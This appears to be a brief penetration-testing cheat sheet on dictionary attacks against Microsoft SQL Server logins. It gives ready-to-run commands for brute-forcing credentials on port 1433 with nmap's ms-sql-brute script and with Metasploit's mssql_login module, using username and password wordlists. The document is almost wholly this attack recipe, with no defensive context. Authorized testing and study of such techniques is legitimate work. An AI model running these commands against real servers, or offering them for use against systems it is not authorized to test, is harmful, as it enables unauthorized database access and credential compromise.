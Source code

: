 # MSSQL Dictionary Attacks
#### USING NMAP NSE SCRIPT:

```
nmap -p 1433 <TARGET> --script ms-sql-brute --script-args userdb=<USERNAME WORDLIST>,passdb=<PASSWORD WORDLIST>
```

#### USING METASPLOIT:

```
msfconsole
use auxiliary/scanner/mssql/mssql_login 
set RHOST <TARGET>
set USER_FILE <USERNAME WORDLIST>
set PASS_FILE <PASSWORD WORDLIST>
set STOP_ON_SUCCESS true
set VERBOSE false
exploit
```

